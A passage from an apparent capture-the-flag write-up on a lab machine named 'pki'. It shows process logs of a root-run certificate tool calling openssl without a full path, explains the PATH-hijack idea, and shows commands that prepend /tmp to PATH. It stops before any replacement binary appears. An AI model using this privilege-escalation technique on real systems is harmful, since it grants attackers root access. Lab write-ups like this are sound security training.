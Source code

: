 ```
2021/08/16 11:45:17 CMD: UID=0    PID=534    | /bin/sh /opt/easyrsa/easyrsa build-client-full 0xdf nopass batch 
2021/08/16 11:45:17 CMD: UID=0    PID=536    | sed -e s`ENV::EASYRSA`EASYRSA`g -e s`$dir`/opt/easyrsa/pki`g -e s`$EASYRSA_PKI`/opt/easyrsa/pki`g -e s`$EASYRSA_CERT_EXPIRE`36500`g -e s`$EASYRSA_CRL_DAYS`180`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_KEY_SIZE`2048`g -e s`$EASYRSA_DIGEST`sha256`g -e s`$EASYRSA_DN`cn_only`g -e s`$EASYRSA_REQ_COUNTRY`US`g -e s`$EASYRSA_REQ_PROVINCE`California`g -e s`$EASYRSA_REQ_CITY`San Francisco`g -e s`$EASYRSA_REQ_ORG`Copyleft Certificate Co`g -e s`$EASYRSA_REQ_OU`My Organizational Unit`g -e s`$EASYRSA_REQ_CN`0xdf`g -e s`$EASYRSA_REQ_EMAIL`me@example.net`g /opt/easyrsa/pki/openssl-easyrsa.cnf 
2021/08/16 11:45:17 CMD: UID=0    PID=538    | openssl ca -utf8 -in /opt/easyrsa/pki/reqs/0xdf.req -out /opt/easyrsa/pki/issued/0xdf.crt.RPtfHT0Pbx -config /opt/easyrsa/pki/safessl-easyrsa.cnf -extfile /opt/easyrsa/pki/extensions.temp -days 36500 -batch 
2021/08/16 11:45:17 CMD: UID=0    PID=539    | mv /opt/easyrsa/pki/issued/0xdf.crt.RPtfHT0Pbx /opt/easyrsa/pki/issued/0xdf.crt 

```

With this, I can walk through all the steps that are being called in `ersatool`, but the two lines that are most interesting are:

```

2021/08/16 11:45:17 CMD: UID=0    PID=528    | openssl req -in /opt/easyrsa/pki/reqs/0xdf.req -noout 
2021/08/16 11:45:17 CMD: UID=0    PID=538    | openssl ca -utf8 -in /opt/easyrsa/pki/reqs/0xdf.req -out /opt/easyrsa/pki/issued/0xdf.crt.RPtfHT0Pbx -config /opt/easyrsa/pki/safessl-easyrsa.cnf -extfile /opt/easyrsa/pki/extensions.temp -days 36500 -batch 

```

`openssl` is being called without the full path.

#### Theory

I’ve shown [path hijack](/tags.html#path-hijack) exploits several times before. When a process calls another one without giving a full path, the current `$PATH` variable is used to look for that binary. Unfortunately, that’s something that is set by the current session, and it is something the current user can set.

If I update the path in my current shell to include a folder I can write to before the legit folder containing `openssl`, then the computer will check that folder first, and if I add a binary named `openssl`, it will run instead of the legit one.

The path on pki is by default:

```

www-data@pki:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```

But I can easily change that for my current shell to start with `/tmp`:

```

www-data@pki:/tmp$ export PATH=/tmp:$PATH
www-data@pki:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

```
